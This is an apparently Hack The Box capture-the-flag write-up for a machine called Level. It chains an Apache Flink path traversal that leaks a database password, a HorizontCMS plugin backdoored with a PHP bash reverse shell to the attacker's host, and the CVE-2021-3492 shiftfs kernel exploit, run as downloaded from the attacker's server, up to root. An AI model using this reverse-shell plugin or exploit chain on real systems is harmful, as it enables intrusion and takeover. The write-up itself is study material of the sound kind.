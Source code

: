 # Level

```
# nmap -sCV -p- level.htb
Nmap scan report for level.htb (10.129.95.161)
Host is up (0.40s latency).
Not shown: 995 closed ports
PORT     STATE SERVICE          VERSION
80/tcp   open  ssl/http?
8081/tcp open  blackice-icecap?
```

Apache Flink on port 8081 is vulnerable to path traversal. Metasploit has a module for it. We can read the .env file in the webroot:
```
msf6 auxiliary(scanner/http/apache_flink_jobmanager_traversal) > run

[*] Downloading /var/www/html/.env ...
[+] Downloaded /var/www/html/.env (125 bytes)
[+] File /var/www/html/.env saved in: /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                                                        
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed


$ cat /home/wil/.msf4/loot/20210727012858_default_10.129.173.192_apache.flink.job_666566.txt                                                              
DB_HOST=127.0.0.1
DB_CONNECTION=mysql
DB_USERNAME=hcms
DB_PASSWORD=N>2sM4^R_j>g)cfe
DB_DATABASE=hcms
HCMS_ADMIN_PREFIX=admin
```
These credentials are valid on port 80 on HorizontCMS:
`admin:N>2sM4^R_j>g)cfe`

![Successfully login as admin](../img/horrizon_admin_login.png "Successfully login as admin")

With admin privileges we can add a malicous plugin, here we used a modified [GoogleMaps](https://github.com/ttimot24/GoogleMaps) plugin with a reverse shell: 

```bash
$ cat messages.php 
<?php 

$shell = exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.27/9000 0>&1'");

return [
        'successfully_added_location' => $shell,//'Location added succesfully!',
        'successfully_deleted_location' => 'Location deleted succesfully!',
        'successfully_set_center' => 'Location is successfully set as map center!'
];
```
Install the plugin in the following menus: `Themes & Apps / Plugin / Upload new plugin`
Install and activate it
Click on `Google Maps (top menu) / Add location` / Set arbitrary content in fields then save.

```bash
$ nc -nvlp 9000
Listening on [0.0.0.0] (family 2, port 9000)
Connection from 10.129.173.192 60640 received!
bash: cannot set terminal process group (1038): Inappropriate ioctl for device
bash: no job control in this shell
albert@level:/var/www/html$
albert@level:/home/albert$ cat user.txt
HTB{0utd4t3d_cms_1s_n0_g00d}
```

By shorty searching for privilege escalation paths, we can notice the operating system is vulnerable to two consecutive LPE (Local Privilege Escalation) vulnerabilities:

* A double free vulnerability in Ubuntu shiftfs driver ([CVE-2021-3492](https://www.synacktiv.com/publications/exploitation-of-a-double-free-vulnerability-in-ubuntu-shiftfs-driver-cve-2021-3492.html)), found by our team mate VDehors and submitted to [Pwn2Own Vancouver 2021](https://twitter.com/thezdi/status/1380233495851712512).
* Ubuntu OverlayFS LPE ([CVE-2021-3493](https://github.com/briskets/CVE-2021-3493)).
```
albert@level$ uname -a
Linux level 5.4.0-48-generic #52-Ubuntu SMP Thu Sep 10 10:58:49 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
      
albert@level$  cat /etc/os-release 
NAME="Ubuntu"
VERSION="20.04.1 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.1 LTS"
VERSION_ID="20.04"
[...]
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

albert@level$ /sbin/sysctl -n 'kernel.unprivileged_userns_clone'
1
```
As the [exploit](https://github.com/synacktiv/CVE-2021-3492/tree/master/exploit) written by Vdehors for his vulnerability CVE-2021-3492 was only targetting Linux kernel versions 5.8, he slightly modified his exploit in order to also support Linux kernel versions 5.4. In the initial exploit, the synchronization between kernel and userspace was done using a new feature of userfaultfd called write-protect. This feature is not present in kernel versions 5.4 so this part of the exploit has been replaced with the legacy userfaultfd page faults. To be able to preempt the kernel for each `copy_to_user()`, the userland structure is placed on two different pages and these pages are untouched to trigger the *userfaultfd* wakeup.

Finally, we can use his exploit to solve the box:
```
albert@level:/tmp/foo$ wget "10.10.14.65:8080/exploit" 
albert@level:/tmp/foo$ mkdir symbols
albert@level:/tmp/foo/$ wget "10.10.14.65:8080/System.map-5.4.0-48-generic" -O symbols/System.map-5.4.0-48-generic
albert@level:/tmp/foo$ chmod +x exploit 
albert@level:/tmp/foo$ ./exploit 
################################################
#                EXPLOIT SETUP                 #
################################################
Kernel version 5.4.0-48-generic
0xffffffff81085460 set_memory_x
0xffffffff810aba30 proc_doulongvec_minmax
0xffffffff810cdb40 commit_creds
0xffffffff810cdec0 prepare_kernel_cred
0xffffffff819f7dc0 devinet_sysctl_forward
0xffffffff82654040 debug_table
Pinning on CPU 0
Creating new USERNS
Configuring UID/GID map for user 1000/1000
Creating new MOUNTNS
Mounting tmpfs on d1
Mounting shiftfs on d2
Creating shiftfs file
Shiftfs FD : 4
Remaped 1 page at 0x100000
Remaped 1 page at 0x101000
Allocated 2 pages at 0x100000 (ret:0x7f9a406d1740)
Allocated 2 storage pages at 0x55874bb1b000 (ret:0)
UFFD FD: 5
Registering new mapping watch = 0
Registering new mapping watch = 0
################################################
#           PRIMITIVES STABILISATION           #
################################################
Triggering the vulnerability...
UFFD poll returned
WP Fault handling 1
Recreate mapping for page 1
Backuping page data 1
Unmap page 1
Remaped 1 page at 0x101000
Registering new mapping watch = 0
Unblock page 0
[...]
Entering NET namespace...
Namespace NET fd = 6
Setns returned 0
Leaking payload address...
Table is at ffff8ac12fa1c008
Dumping global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
Patching global sysctl...
global_sysctl_victim[0] = 0xffffffff87b5f238
[...]
global_sysctl_victim[7] = 0x0000000000000000
################################################
#                 SYSTEM REPAIR                #
################################################
Checking R/W primitives
Current header is 000000000000ffff
Restored header is ffff8ac136194000
Restoring global sysctl...
################################################
#              SHELLCODE INJECTION             #
################################################
Setting buffer to RWX
Writting shellcode at ffff8ac12fa1cf08
Writting prepare_kernel_cred at ffff8ac12fa1cef8
Writting commit_cred at ffff8ac12fa1cef0
Executing shellcode...
################################################
#                 YOU ARE ROOT                 #
################################################
root@level:/tmp/foo# id
uid=0(root) gid=0(root) groups=0(root)

root@level:/tmp/foo# cat /root/root.txt 
HTB{br0k3n_st0r4g3}
```